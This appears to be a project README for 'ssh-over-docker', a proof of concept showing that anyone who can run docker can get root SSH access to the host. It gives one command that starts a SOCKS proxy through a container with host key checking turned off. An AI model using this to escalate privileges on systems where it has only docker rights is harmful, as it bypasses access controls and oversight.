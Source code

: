 # ssh-over-docker
If you can run docker, you can ssh to the machine. This is a PoC :)

## Howto
To start your socks proxy:

    ssh -CD 1080 -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no -o ProxyCommand="docker run --rm -i cell/ssh-over-docker $(cat ~/.ssh/id_rsa.pub)" root@127.0.0.1
